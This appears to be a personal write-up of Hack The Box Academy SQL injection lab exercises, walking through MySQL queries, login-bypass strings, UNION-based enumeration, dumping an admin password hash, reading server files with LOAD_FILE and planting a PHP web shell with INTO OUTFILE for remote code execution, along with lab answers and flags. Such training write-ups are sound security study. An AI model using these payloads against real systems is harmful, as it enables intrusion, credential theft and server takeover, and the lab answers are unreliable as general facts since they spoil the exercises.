


# SQL Injection Fundamentals — HTB Writeup

> Personal notes from authorized Hack The Box Academy exercises. Lab targets are temporary. Replace expired target addresses/ports when repeating an exercise.

## Screenshots

Screenshot references in this writeup point to the `screenshots/` folder. Add the corresponding image files there using the exact filenames shown in the links. The original text document contained screenshot references, but the image files themselves were not included in the upload.

---

# “writeup's”

---

### Q1. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?

Authenticate to **154.57.164.74 ,** with user "**root**" and password "**password**"

Step 1. 

`mysql -h 154.57.164.74 -P 3306 -u root -p`
Enter password:
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it

so Let's think

- Port Connectivity
    
    `nc -nv IP PORT`
    
    Check whether the target port is reachable.
    
- Service Identification
    
    Identify the database banner and version.
    
- Database Connection
    
    `mysql -h IP -P PORT -u USER -p`
    
- Troubleshoot SSL
    - `-skip-ssl` if the server does not support SSL.
- Database Enumeration
    
    `SHOW DATABASES;`
    


so the answer is first name in the table 😊

---

# Q2.

### What is the department number for the 'Development' department?

Authenticate to **154.57.164.74 ,** with user "**root**" and password "**password**"

Step 1. 

```sql
mysql -h <IP> -P <PORT> -u root -p --skip-ssl
```

and enter password,

after enter pass

```sql
USE employees;
```


let’s see table ,

```sql
SHOW TABLES;
```


now choese  departments,

```sql
SELECT * FROM departments;
```


ok the answer is “d005”

---

# Q3.

**What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

step 1.

```sql
mysql -h <IP> -P <PORT> -u root -p --skip-ssl
```


Step 2.

`USE employees;`


Step3 .

```sql
SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';

```


so this answer


---

Q4. **In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

Step 1. 

```sql
mysql -h 154.57.164.71 -P 40917 -u root -p --skip-ssl
```

Step 2. 

```sql
USE employees;
```

Step 3.

```sql
SELECT COUNT(*)
FROM titles
WHERE emp_no > 10000
OR title NOT LIKE '%engineer%';
```


---

Q5.

**Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

Step 1. take url and open in page 

ip: 154.57.164.70:33531


now we try injectet something 

in username put `admin’or’1’=’1’— -`

password = anything and click enter

now you can see this


he need , we try login with username `tom`

ok let’s do it

we use this payload `tom'or'1'='1`


---

Q6.

**Login as the user with the id 5 to get the flag.**

this question need **Auth Bypass with comments**

`' OR id=5)#`


---

Q6.**Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

Step 1. 

```jsx
mysql -u root -h 154.57.164.69 -P 39590 -p --skip-ssl

---

USE employees;

```


Now We Check the table structures

```jsx
DESCRIBE employees;
DESCRIBE departments;
```


Execute UNION

```jsx
SELECT emp_no FROM employees
UNION
SELECT dept_no FROM departments;
```

To calculate the number of outcomes:

```jsx
SELECT COUNT(*) FROM (
    SELECT emp_no FROM employees
    UNION
    SELECT dept_no FROM departments
) AS combined;
```


---

Q7. **Use a Union injection to get the result of 'user()'**

take the url and open in another page 


now let’s start injection with union payload

```jsx
' ORDER BY 1-- -
---
' ORDER BY 2-- -
---
' ORDER BY 3-- -
```


look here There is 3 column

we use union now 

```jsx
' UNION SELECT 1,2,3,USER()-- -
```


Done

---

Q8.**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

```jsx
cn' UNION SELECT 1, username, password, 4 FROM ilfreight.users WHERE username='newuser'-- -
```


=========================================================

---

Q9.**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

Step 1 , you need see the php code for analysis .

now, do `ctrl+u`

so now, you are not the php code

now, you need now the DB User, and privilege

```jsx
cn' UNION SELECT 1, user(), 3, 4-- -
```


```jsx
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

```


now, Checking the user's permissions

```jsx
cn' UNION SELECT 1, super_priv, 3, 4
FROM mysql.user WHERE user="root"-- -
```


result Y mean yes , he is super_priv.

now we see all privilege 

```jsx
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

```


now we see file, And this allows reading and writing files on the server under certain conditions.

now we try read file system ,  using LOAD_FILE

```jsx
cn' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```


next , we try read the search source code

```jsx
cn' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -
```


now go the page source and you can see the php code


now analysis the code , or sent to any ai module 

we search about this

```jsx
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

```


Done

---

---

Q10:**Find the flag by using a webshell.**

Step 1,

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

```



Step 2, 

open >> http://ip<port>//proof.txt

you well see 


then you can do shell 

Step 3. 

```sql
cn' union select "",'<?phpsystem($_REQUEST[0]); ?>', "", "" into outfile'/var/www/html/shell.php'-- -
```

when you open >> http://ip<port>//shell?0=id



Step 4, 

```sql
http://154.57.164.74:32819/shell.php?0=ls%20-la
```

you can see the `flag.txt` 

open

```sql
http://154.57.164.74:32819/shell.php?0=cat%20../flag.txt
```

finish 

---

**Skills Assessment - SQL Injection Fundamentals**

Scenario

You have been contracted by `chattr GmbH` to conduct a penetration test of their web application. In light of a recent breach of one of their main competitors, they are particularly concerned with `SQL injection vulnerabilities` and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

Q1:**What is the password hash for the user 'admin'?**

Search in login page , we not exist any SQLI their

 -we try in creat account


open burp and intercept the request

and put any payload in any parameter

 


now account create

go to login and sign in your account

now account not create we search in another parameter

like in `invitationCode or username`

in `invitationCode` 


ok, now we try bypass the `invitationCode` 

payload 

```jsx
' OR '1'='1
```

or use another payloads

when you go sign in page and try login by your account, you able to login 


now go to and get inside where we can leverage the search box for SQL Injection, you can test by send an `hi` message to `@@admin`

now we try in search parameter

when we use this

```jsx
test'-- => you get normal result 
test''-- =>> you get there's nothing here yet!
test') -- =>  get normal result test (our message) (acts normal) => we can leverage from here

```

now 

- Emunerate the number of columns:

```
test'') ORDER BY 4 -- => get normal result hi (our message) (acts normal)
test'') ORDER BY 5 -- => get blank (acts differently)
```

- Confirmed 4 columns:


```
hi') UNION SELECT 1,2,3,4 -- - =>  you can see number 3 (the message) & 4 (the time) from the @@admin => we can leverage from here
```

- Database emuneration:

```
hi') UNION SELECT 1,2,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES -- - => besides information_schema and performance_schema, the tables we have to focus:

chattr.Users
chattr.InvitationCodes
chattr.Messages

hi') UNION SELECT 1,2,COLUMN_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users' -- - => got: UserID, Username, Password, InvitationCode, AccountCreated
```


- password hash of admin:

```
hi') UNION SELECT 1,2,Password,Username FROM chattr.Users WHERE Username = 'admin' -- => got: $argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU
```


Q1 >>Done

---

Q2: **What is the root path of the web application?**

now we 
• Using `LOAD_FILE` to emunerate the internal file system:

```jsx

hi') UNION SELECT 1, 2, LOAD_FILE('/etc/nginx/nginx.conf'), 4 -- -
```


now use :

```jsx
hi') UNION SELECT 1, 2, LOAD_FILE('/etc/nginx/sites-enabled/default'), 4 --
```


• Found `root /var/www/chattr-prod;` => the root path of the web application

**Answer:** `/var/www/chattr-prod`

Q2 >> Done

---

Q3:**Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.**

- Emunerate the current user:

```
hi') UNION SELECT 1,2,user(),4 -- - => got: chattr_dbUser@localhost
hi') UNION SELECT 1, 2, privilege_type, 4 FROM information_schema.user_privileges -- - => got: FILE
```

- Confirmed we have writing privileges

```
hi') UNION SELECT '', '', '<?php system($_REQUEST["cmd"]); ?>', '' INTO OUTFILE '/var/www/chattr-prod/shell.php' -- -
```

- Access the shell:

```
/shell.php?cmd=id => uid=33(www-data) gid=33(www-data) groups=33(www-data)
/shell.php?cmd=ls / => bin boot dev etc flag_876a4c.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
/shell.php?cmd=cat /flag_876a4c.txt => 061b1aeb94dec6bf5d9c27032b3c1d8d
```


Done 🙂